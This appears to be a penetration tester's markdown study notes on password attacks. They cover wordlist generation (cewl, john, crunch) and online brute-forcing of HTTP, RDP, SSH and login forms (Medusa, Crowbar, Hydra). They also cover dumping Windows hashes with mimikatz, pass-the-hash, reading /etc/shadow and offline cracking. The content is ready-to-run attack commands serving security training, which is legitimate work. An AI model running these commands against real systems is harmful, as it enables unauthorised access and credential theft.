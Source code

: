 # Password Attacks

## Wordlists

 Save more time at the expense of low coverage.

Try the most possible passwords.

`/usr/share/wordlists`

 ### Standard Wordlists

To create custom password lists

 ```bash
cewl --help | less
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt		# scrape website, search for words with at least 6 chars and write them to a txt
 ```

Use **John** to create different styles of passwords

```bash
sudo nano /etc/john/john.conf
# find [List.Rules:WordList]
# set some rules, such as adding 2 digits at the end of each password
$[0-9]$[0-9]
john --wordlis=megacorp-cewl.txt --rules --stdout > mutate.txt
```

### Brute Force Wordlists

Test every password combinations.

#### Generate brute force passwords in a certain pattern to save time with 'crunch'

| Placeholder | Character Translation              |
| ----------- | ---------------------------------- |
| @           | Lower case alpha characters        |
| ,           | Uppercase alpha characters         |
| %           | Numeric characters                 |
| ^           | Special characters including space |

```bash
crunch 8 8 -t ,@@^^%%% # generate pwd with min and max length of 8 chars, -t to specify pattern
crunch 4 6 0123456789ABCDEF -o crunch.txt		# use only some characters
# /usr/share/crunch/charset.lst			generate pwd with predefined char sets
crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt	# choose char set, and mixalpha for upper/lower letters
```



## Common Network Service Attack Methods

### HTTP htaccess Attack with Medusa

```bash
medusa -h <HOST IP> -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin 
```

### Remote Desktop Protocol Attack with Crowbar

```bash
sudo apt install crowbar
crowbar -b rdp -s <HOST IP> -u admin -C <password file> -n 1	# -b for protocol, -n for number of thread
```

### SSH Attack with THC-Hydra

```bash
# -l 					target username
# -P 					Wordlist
# protocol://IP           protocol and IP address
hydra -l kali -P <pwd file> ssh:<IP>
```

### HTTP POST Attack with THC-Hydra

```bash
hydra http-form-post -U | less		# provide more arguments for a form
# look at web page source code first for understanding how a form looks like

hydra <IP> http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P <pwd file> -vV -f
# -f for: stop after first success
```



## Leveraging Password Hashes

### Retrieving Password Hashes

```bash
hashid "<hash>"				# analyze hash
```

Use mimikatz to retrieve pwd hashes from windows

```powershell
# Within mimikatz
privilege::debug
token::elevate		# elevate from high integrity to system integrity
lsadump::sam		# dump hashes
```

### Passing the Hash in Windows

Use hash to authenticate instead of clear text password. Since Windows doesn't use salt with hashes, the hashes are static. So if 2 machines has the same username and password, you could use the hash of one machine to login to the other.

```bash
pth-winexe -U <USERNAME>%<HASH> //<IP> cmd
```

### Password Cracking

Process of recovering the clear text of a password given its hashed form.

```bash
# windows hashes
john hash.txt --format=NT
john --wordlist=<word list> hash.txt --format=NT
john --rules --wordlist=<word list> hash.txt --format=NT

# linux cracking
grep <username> /etc/passwd > pwd-file.txt
sudo grep <username> /etc/shadow > shadow-file.txt
unshadow pwd-file.txt shadow-file.txt > unshadowed.txt
john --rules --wordlist=<rockyou.txt> unshadowed.txt
# --fork to multithread on older versions, default in new versions
# --node distribute load on multiple computers
```

John is limited by CPU speed.

[https://hashcat.net](https://hashcat.net): use GPU.

[https://hashcat.net/wiki/](https://hashcat.net/wiki/)

































